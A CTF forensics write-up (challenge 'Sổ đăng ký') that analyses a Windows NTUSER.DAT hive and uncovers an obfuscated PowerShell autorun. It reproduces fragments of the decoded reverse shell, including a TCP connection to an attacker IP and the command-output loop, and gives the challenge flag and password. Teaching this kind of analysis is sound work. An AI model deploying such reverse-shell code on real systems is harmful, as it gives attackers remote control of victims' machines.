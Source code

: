 ### TITLE
>Sổ đăng ký
### DESCRIPTION
>Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.

>Tải challenge: https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)

>Format Flag: CHH{XXX}
### CATEGORY
>Forensics
### HINT
>None
### DIFFICULTY
>easy
### Pass
>cookiehanhoan
### Tool
>[RegRipper](https://github.com/keydet89/RegRipper3.0)
### FLAG
>CHH{N0_4_go_n0_st4r_wh3r3}
### SOLVED
So download the zip file and you get the NTUSER.DAT file. Do a little research and you will find out that it is used to store user profile settings from the Windows registry. 
![image](https://github.com/user-attachments/assets/5214804f-eb55-499e-95f5-52c78d4c1004)

 Continue to use the __regRipper__ to extract forensic artifacts from Windows Registry hives to a report.txt file. After that take a look at the report and I stumbled upon the powershell.exe that being set autorun with a sus obfuscation script. A brief analysis of the script: This PowerShell script is obfuscated something that extracts, decompresses, and executes hidden code.

![image](https://github.com/user-attachments/assets/3bc88a07-83d0-4763-8bc5-a87544198746)

+ __[coNVeRT]::FRoMBAse64stRInG('<Long Base64 string>')__: Extracts hidden malicious code from the Base64-encoded string.
+ __neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] <Base64DecodedData>, [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)__: Decompresses the extracted binary using Deflate compression.
+ ___FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()__: Reads the decoded PowerShell script into a string.
+ __|inVOKe-exprEsSIon__: Executes it with Invoke-Expression, likely running malware.

So our attention is the Base64 string so I use Powershell to decode it and write the result to __output.txt__ (__decode.txt__). Unsurprisingly, it is a __reverse shell__ script that print out the flag, read the script and you will get the flag!!

P/S: Analyze the reverse shell:
+ __$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27",4953);__: Creates a TCP connection to 192.168.253.27:4953. Attacker machine!!
+ __while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){__: Loops indefinitely to receive data from the attacker's machine.
+ __$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);__: Converts received bytes into a command string.
+ __$sendback2 = $sendback + "<Flag>" + (pwd).Path + "> ";__: Appends a flag to the output 
+ __$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);__: Converts output to ASCII bytes for transmission.
+ __$stream.Write($sendbyte,0,$sendbyte.Length);__: Sends the command output back to the attacker's machine.
#### END!!
